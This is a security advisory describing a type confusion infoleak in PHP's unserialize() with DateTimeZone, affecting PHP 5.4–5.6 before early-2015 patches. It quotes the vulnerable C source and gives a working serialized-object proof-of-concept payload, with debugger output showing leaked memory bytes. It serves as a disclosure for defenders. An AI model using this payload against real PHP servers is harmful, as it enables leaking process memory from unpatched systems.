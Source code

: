 ### Type Confusion Infoleak Vulnerability in unserialize() with DateTimeZone
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.1.29 - Release Date: 2015.2.20
 
> A Type Confusion Vulnerability was discovered in unserialize() with DateTimeZone object's __wakeup() magic method that can be abused for leaking arbitrary memory blocks.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.6  
Affected is PHP 5.5 < 5.5.22  
Affected is PHP 5.4 < 5.4.38

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` c
static int php_date_timezone_initialize_from_hash(zval **return_value, php_timezone_obj **tzobj, HashTable *myht TSRMLS_DC)
{
	zval            **z_timezone = NULL;
	zval            **z_timezone_type = NULL;
 
	if (zend_hash_find(myht, "timezone_type", 14, (void**) &z_timezone_type) == SUCCESS) {
		if (zend_hash_find(myht, "timezone", 9, (void**) &z_timezone) == SUCCESS) {
			convert_to_long(*z_timezone_type);
			if (SUCCESS == timezone_initialize(*tzobj, Z_STRVAL_PP(z_timezone) TSRMLS_CC)) {
				return SUCCESS;
			}
		}
	}
	return FAILURE;
}
...
static int timezone_initialize(php_timezone_obj *tzobj, /*const*/ char *tz) /* {{{ */
{
	timelib_time *dummy_t = ecalloc(1, sizeof(timelib_time));
	int           dst, not_found;
	char         *orig_tz = tz;

	dummy_t->z = timelib_parse_zone(&tz, &dst, dummy_t, &not_found, DATE_TIMEZONEDB, php_date_parse_tzfile_wrapper);
	if (not_found) {
		php_error_docref(NULL, E_WARNING, "Unknown or bad timezone (%s)", orig_tz);
```
 
The Z_STRVAL_PP macro lead to looking up an arbitrary valid memory address, and outputing a string via an warning level error message that start from this memory address.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

``` php
<?php

$data = unserialize('O:12:"DateTimeZone":2:{s:13:"timezone_type";i:1;s:8:"timezone";i:4298494896;}');

?>
```

Test the PoC on the command line, then show warning level error message:

``` php
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run test/test.php
Process 889 launched: '/usr/bin/php' (x86_64)

Warning: DateTimeZone::__wakeup(): Unknown or bad timezone (UH??AWAVAUATSH??8) in /test/test.php on line 3
Process 889 exited with status = 0 (0x00000000)
```
